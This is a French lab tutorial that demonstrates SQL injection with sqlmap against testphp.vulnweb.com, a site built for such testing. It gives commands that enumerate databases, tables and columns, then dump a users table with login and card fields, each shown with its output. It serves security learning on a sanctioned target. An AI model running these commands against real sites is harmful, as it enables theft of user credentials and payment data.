 # Sand box et SQLMAP

On va ici tenter de pénétrer un [site web ](http://testphp.vulnweb.com/)\(prévu à cet effet\) pour tester des attaques par injections SQL. Notamment avec l'utilisation du logiciel SQLMAP.

## Présentation du site

![preview du site](../.gitbook/assets/capture-de-cran-2021-08-13-a-20.40.45.png)

C'est un site qui regroupe des artistes par catégorie, avec des descriptions par artistes etc. et il est sensible aux injections SQL.

On peut vérifier cette sensibilité en ajoutant un guillemet simple à la fin de l'url, car il retourne une erreur sql.

## À l'aide de SQLMAP

#### 1. On commence par taper la commande suivante pour lister toutes les databases utilisées à cette url \(on prend ici une url depuis la page d'un artiste\) :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs 
```

Vous devriez avoir à la fin du processus, quelque chose comme ça :

```bash
[21:23:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:23:03] [INFO] fetching database names
available databases [2]:

[*] acuart
[*] information_schema
```

On remarque ainsi la présence de 2 databases pour cette url.



#### 2. À partir de la, on peut récupérer le nom des tables des databases que l'on souhaite, par exemple ici la database acuart, avec la commande :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --tables -D acuart
```

Vous obtiendrai à la fin de ce processus, le nom des tables de la database acuart :

```text
[21:28:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:28:51] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```



#### 3. Notre but étant de pouvoir obtenir les informations des utilisateurs, on va s'intéresser à la table users, et afficher ses attributs :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --columns -D acuart -T users
```

Vous obtiendrai finalement le descriptif des attributs de la tables users, de la database acuart :

```text
[21:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:34:10] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```



#### 4. Maintenant, il ne nous reste plus qu'à afficher les données de la table :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump -D acuart -T users
```

Résultat :

```text
Database: acuart
Table: users
[1 entry]
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| cc                  | cart                             | name                                             | pass | email           | phone   | uname | address   |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| 1234-5678-2300-9000 | 5d85445a2a1e07611dfd51f20ef36758 | 1}"acxzzzzzzzzbbbccccdddeeexca".replace("z","o") | test | email@email.com | 2323345 | test  | 21 street |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
```

On peut donc voir que la table users contient un utilisateur dont l'identifiant et le mot de passe sont 'test'.



## Avec injections SQL à la main

